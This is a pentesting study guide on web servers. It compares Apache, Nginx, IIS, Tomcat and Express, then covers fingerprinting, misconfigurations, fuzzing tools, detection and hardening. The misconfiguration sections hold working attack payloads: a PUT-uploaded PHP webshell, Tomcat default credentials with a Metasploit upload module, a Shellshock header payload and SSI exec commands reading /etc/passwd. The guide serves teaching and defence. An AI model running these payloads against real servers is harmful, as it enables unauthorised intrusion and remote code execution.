

# Web Server Basics

> **Web servers are the gatekeepers of web applications — knowing how they work reveals how to attack them.**

---

## 🧠 What Is It? (Beginner Explanation)

A web server is software that:
1. **Listens** on a port (usually 80/443) for incoming HTTP requests
2. **Routes** those requests to the right handler (static files, PHP, Python app, etc.)
3. **Returns** an HTTP response (HTML, JSON, images, etc.)

Understanding how web servers work — and how they're commonly misconfigured — is fundamental to web pentesting. The same features that make them powerful make them dangerous when left with defaults.

---

## 🏗️ Web Server Comparison

| Feature             | Apache          | Nginx           | IIS             | Tomcat         | Node.js/Express |
|---------------------|-----------------|-----------------|-----------------|----------------|-----------------|
| Language            | C               | C               | C++/.NET        | Java           | JavaScript      |
| Architecture        | Process/thread  | Event-driven    | Thread pool     | Thread-per-req | Event loop      |
| Config format       | httpd.conf/.htaccess | nginx.conf | web.config (XML)| server.xml     | Code-based      |
| Dynamic content     | Modules (mod_php)| FastCGI proxy   | ISAPI/CGI       | Java Servlets  | Native          |
| Static file perf    | Good            | **Excellent**   | Good            | Poor           | Moderate        |
| Market share (2024) | ~30%            | ~35%            | ~10%            | (app server)   | ~20%            |
| Default port        | 80/443          | 80/443          | 80/443          | 8080/8443      | 3000            |
| Identifies via      | `Server: Apache`| `Server: nginx` | `Server: Microsoft-IIS` | `Server: Apache-Coyote` | `X-Powered-By: Express` |

---

## 🏗️ Request Lifecycle Inside the Server



---

## ⚙️ Virtual Hosting

Virtual hosting lets one server host multiple websites on the same IP.

### Name-Based Virtual Hosting (most common)

The `Host:` header determines which site is served:

```
GET / HTTP/1.1
Host: victim.com        ← Server reads this to decide which site
```

**Pentesting implications:**
- Virtual host fuzzing can reveal hidden apps on same IP: `ffuf -w vhosts.txt -H "Host: FUZZ.target.com"`
- Direct IP access shows the default/first virtual host
- Host header injection can lead to: password reset link hijacking, cache poisoning, SSRF

```bash
# Virtual host discovery with ffuf
ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt \
  -u http://TARGET_IP/ \
  -H "Host: FUZZ.target.com" \
  -mc 200,301,302,403

# Test if Host header is reflected
curl -H "Host: evil.com" http://target.com/
```

---

## ⚙️ Configuration Files Reference

### Apache

```
/etc/apache2/apache2.conf          # Main config (Debian/Ubuntu)
/etc/httpd/conf/httpd.conf         # Main config (CentOS/RHEL)
/etc/apache2/sites-available/      # Virtual host configs
/etc/apache2/sites-enabled/        # Active virtual hosts (symlinks)
/etc/apache2/mods-enabled/         # Active modules
/etc/apache2/.htpasswd             # Basic auth credentials
/var/www/html/                     # Default document root
/var/log/apache2/access.log        # Access log
/var/log/apache2/error.log         # Error log
```

### Nginx

```
/etc/nginx/nginx.conf              # Main config
/etc/nginx/conf.d/                 # Additional configs (included)
/etc/nginx/sites-available/        # Virtual host configs (Debian)
/etc/nginx/sites-enabled/          # Active virtual hosts
/usr/share/nginx/html/             # Default document root
/var/log/nginx/access.log          # Access log
/var/log/nginx/error.log           # Error log
```

### IIS

```
C:\inetpub\wwwroot\                # Default document root
C:\inetpub\wwwroot\web.config      # App config (XML)
C:\Windows\System32\inetsrv\config\applicationHost.config  # Main IIS config
C:\inetpub\logs\LogFiles\          # Access logs
%SystemRoot%\System32\drivers\etc\hosts  # Hosts file
```

### Tomcat

```
$CATALINA_HOME/conf/server.xml    # Main config
$CATALINA_HOME/conf/web.xml       # Global servlet config
$CATALINA_HOME/conf/tomcat-users.xml  # Users/roles (default creds here!)
$CATALINA_HOME/webapps/           # Deployed applications
$CATALINA_HOME/logs/catalina.out  # Log file
```

---

## 🔴 Web Server Fingerprinting

### Via HTTP Headers

```bash
# Basic header check
curl -I https://target.com

# Example revealing responses:
# Server: Apache/2.4.52 (Ubuntu)          ← Apache + version + OS!
# Server: nginx/1.18.0                    ← Nginx + version
# Server: Microsoft-IIS/10.0              ← IIS + version
# X-Powered-By: PHP/8.1.2                ← PHP version
# X-Powered-By: ASP.NET                  ← .NET framework
# X-AspNet-Version: 4.0.30319            ← .NET version
# X-Generator: Drupal 8                  ← CMS
```

### Via Error Pages

```bash
# Trigger a 404 to see error page style
curl https://target.com/this-page-does-not-exist-at-all

# Apache 404: "Apache/2.4.52 Server at target.com Port 443"
# Nginx 404: "nginx/1.18.0"
# IIS 404: "Microsoft-IIS/10.0" in the HTML
# Tomcat 404: Full stack trace with Tomcat version
```

### Via Default Files

```bash
# Apache default page check
curl -s https://target.com/ | grep "Apache2 Default Page\|It works!"

# Nginx default
curl -s https://target.com/ | grep "Welcome to nginx"

# IIS default
curl -s https://target.com/ | grep "IIS Windows Server"

# Tomcat manager (CRITICAL - often default creds!)
curl -s https://target.com:8080/manager/html
curl -s https://target.com:8080/host-manager/html

# phpinfo
curl -s https://target.com/phpinfo.php
curl -s https://target.com/info.php

# Server-status (Apache mod_status)
curl -s https://target.com/server-status
curl -s https://target.com/server-info
```

### Fingerprinting Tools

```bash
# whatweb — web technology fingerprinting
whatweb -v https://target.com
whatweb -a 3 https://target.com  # Aggression level 3 (more requests)
whatweb -i targets.txt --log-json=output.json

# nikto — web server scanner
nikto -h https://target.com
nikto -h https://target.com -o report.txt
nikto -h https://target.com -Tuning 1  # Interesting files only

# nmap HTTP scripts
nmap --script http-server-header,http-title,http-auth-finder target.com
nmap --script http-methods target.com  # Check allowed HTTP methods
nmap --script http-enum target.com      # Enumerate files/dirs

# wappalyzer CLI
npx wappalyzer https://target.com
```

---

## 💥 Common Misconfigurations

### 1. Directory Listing Enabled

When there's no `index.html` and directory listing is on, the server shows all files.

```bash
# Check for directory listing
curl -s https://target.com/uploads/ | grep -i "Index of\|Parent Directory"

# Gobuster to find directories that might have listing
gobuster dir -u https://target.com -w /usr/share/wordlists/dirb/common.txt

# Look for "Index of /" in page title
curl -s https://target.com/backup/ | grep "<title>"
```

**Risk:** Source code, backups, credentials, and config files exposed.

**Fix in Apache:**
```apache
Options -Indexes
```

**Fix in Nginx:**
```nginx
autoindex off;
```

---

### 2. Server Version Disclosure

```bash
# Apache — suppress version
# /etc/apache2/conf-enabled/security.conf
ServerTokens Prod          # Shows "Apache" only, not version
ServerSignature Off        # No server info in error pages
```

```nginx
# Nginx
server_tokens off;         # Don't show version in Server: header
```

---

### 3. Tomcat Manager Default Credentials

Tomcat Manager at `/manager/html` is an RCE via WAR file upload if accessible.

```bash
# Default credentials to try:
# tomcat:tomcat
# admin:admin
# admin:(blank)
# manager:manager
# role1:role1
# tomcat:s3cret

# Metasploit module
use exploit/multi/http/tomcat_mgr_upload
set RHOSTS target.com
set RPORT 8080
set HttpUsername tomcat
set HttpPassword tomcat
run
```

---

### 4. HTTP PUT Method Enabled

Some servers (especially WebDAV) allow file upload via PUT.

```bash
# Check allowed methods
curl -X OPTIONS https://target.com/ -v 2>&1 | grep "Allow:"

# If PUT is allowed, upload a webshell
curl -X PUT https://target.com/shell.php -d '<?php system($_GET["cmd"]); ?>'
curl https://target.com/shell.php?cmd=id
```

---

### 5. Exposed .git Directory

If `.git/` is accessible, the entire source code can be reconstructed.

```bash
# Check if .git is exposed
curl -s https://target.com/.git/HEAD
# If it returns "ref: refs/heads/main" → .git is exposed!

# Dump entire repo with git-dumper
pip install git-dumper
git-dumper https://target.com/.git /tmp/dumped_repo

# Alternative: GitTools
./gitdumper.sh https://target.com/.git/ /tmp/repo
./extractor.sh /tmp/repo /tmp/extracted
```

---

### 6. Backup Files

Developers often leave backup files accessible:

```bash
# Common backup file extensions to fuzz
ffuf -u https://target.com/FUZZ -w /dev/stdin <<EOF
index.php.bak
index.php~
config.php.bak
config.php.old
config.php.1
wp-config.php.bak
database.sql
db_backup.sql
backup.zip
site.tar.gz
EOF

# Also try:
# Swap files: .index.php.swp (vim), #index.php# (emacs)
# Source files: index.php.txt, config.inc.php.txt
```

---

### 7. phpinfo() Exposed

`phpinfo()` reveals: PHP version, server config, loaded modules, environment variables, `$_SERVER` superglobals, `php.ini` settings, and sometimes API keys in environment variables.

```bash
# Find phpinfo pages
ffuf -u https://target.com/FUZZ -w /dev/stdin <<EOF
phpinfo.php
info.php
test.php
php.php
i.php
EOF
```

---

### 8. CGI Shellshock (CVE-2014-6271)

CGI scripts executing bash ≤4.3 were vulnerable to Shellshock:

```bash
# Test for Shellshock
curl -H 'User-Agent: () { :;}; echo "Content-Type: text/plain"; echo; /usr/bin/id' \
  https://target.com/cgi-bin/test.cgi
```

---

## ⚙️ File Extension Handling

How file extensions map to handlers — important for upload bypass:

| Extension   | Handler              | Risk if misconfig                    |
|-------------|----------------------|--------------------------------------|
| .php        | PHP-FPM / mod_php    | Uploaded PHP = RCE                   |
| .php5, .phtml, .phar | PHP (variants) | Upload bypasses that miss these |
| .asp, .aspx | ASP.NET / Mono       | RCE if uploaded                      |
| .jsp, .jspx | Java/Tomcat          | RCE if uploaded                      |
| .cgi, .pl   | CGI/Perl             | RCE; Shellshock if bash              |
| .shtml      | SSI (Apache)         | Server-Side Include Injection        |
| .xml        | Static / parsed      | XXE if parsed by server              |
| .config     | IIS                  | web.config upload → ASP.NET code exec|

### SSI Injection

If `.shtml` files are processed with Server-Side Includes:

```html
<!--#exec cmd="id" -->
<!--#exec cmd="cat /etc/passwd" -->
<!--#include virtual="/etc/passwd" -->
<!--#printenv -->
```

---

## ⚙️ Reverse Proxy Misconfigurations

A common pattern: Nginx proxies to a backend app. Path normalization differences create vulnerabilities.

```nginx
# Nginx config
location /api {
    proxy_pass http://backend:8080/api;
}
```

**Path traversal via proxy:** Request to `/api/../admin` → Nginx passes `/admin` to backend (Nginx normalizes path first, but backend might not).

```bash
# Test path confusion
curl https://target.com/api/..%2Fadmin
curl https://target.com/api/%2e%2e/admin
```

---

## 🛠️ Tools & Commands

### gobuster — Directory/File Bruteforce

```bash
# Directory scan
gobuster dir -u https://target.com \
  -w /usr/share/seclists/Discovery/Web-Content/common.txt \
  -x php,html,txt,bak,old \
  -t 50 \
  -o gobuster_output.txt

# DNS subdomain scan
gobuster dns -d target.com -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt

# Virtual host discovery
gobuster vhost -u https://target.com -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt
```

### ffuf — Fast Web Fuzzer

```bash
# Basic directory scan
ffuf -u https://target.com/FUZZ \
  -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt \
  -mc 200,301,302,403

# File extension fuzzing
ffuf -u https://target.com/config.FUZZ \
  -w /dev/stdin <<< $'php\ntxt\nbak\nold\n~\n.swp'

# Filter by size (remove false positives)
ffuf -u https://target.com/FUZZ -w wordlist.txt -fs 0,1234

# POST parameter fuzzing  
ffuf -u https://target.com/login \
  -X POST \
  -d 'username=admin&password=FUZZ' \
  -w passwords.txt \
  -fc 302
```

### nikto — Web Vulnerability Scanner

```bash
# Basic scan
nikto -h https://target.com

# With authentication
nikto -h https://target.com -id admin:password

# Scan specific port
nikto -h target.com -p 8080

# Only check specific tests
nikto -h https://target.com -Tuning 2  # Misconfiguration
nikto -h https://target.com -Tuning 6  # Info disclosure

# Save output
nikto -h https://target.com -o report.html -Format htm
```

---

## 🔍 Detection

| Misconfiguration     | Detection                                                                 |
|----------------------|---------------------------------------------------------------------------|
| Directory listing    | WAF rule: block/alert on responses containing "Index of /"               |
| Version disclosure   | Security header scanner in CI/CD pipeline                                 |
| .git exposed         | Web crawlers in bug bounty; automated scanner templates                   |
| Default credentials  | After deployment credential rotation audit; authenticated scan            |
| PUT enabled          | HTTP method audit in web scanner/nmap scripts                             |
| Backup files         | Regular file audits; gitignore enforcement                                |
| phpinfo exposed      | File existence check in monitoring/deployment pipeline                     |

---

## 🛡️ Mitigation

```apache
# Apache security hardening
ServerTokens Prod
ServerSignature Off
Options -Indexes -Includes -ExecCGI    # Disable dangerous options
TraceEnable Off                          # Disable TRACE method (XST attack)

# Restrict access to sensitive files
<FilesMatch "\.(bak|old|sql|zip|tar|gz|swp|~)$">
    Require all denied
</FilesMatch>

<DirectoryMatch "^/.*/\.git/">
    Require all denied
</DirectoryMatch>
```

```nginx
# Nginx security hardening
server_tokens off;
autoindex off;

# Block sensitive file access
location ~* \.(bak|old|sql|zip|tar|gz|swp|~)$ {
    deny all;
    return 404;
}

location ~ /\.git {
    deny all;
    return 404;
}
```

---

## 📚 References

- [OWASP Testing Guide — Web Server Fingerprinting](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/01-Information_Gathering/02-Fingerprint_Web_Server)
- [Apache Security Tips](https://httpd.apache.org/docs/2.4/misc/security_tips.html)
- [Nginx Security Hardening](https://nginx.org/en/docs/http/ngx_http_core_module.html)
- [OWASP — Testing for Web Server Misconfiguration](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/02-Configuration_and_Deployment_Management_Testing/)
- [CVE-2014-6271 — Shellshock](https://nvd.nist.gov/vuln/detail/CVE-2014-6271)
- [Shodan for Web Server Discovery](https://www.shodan.io/)
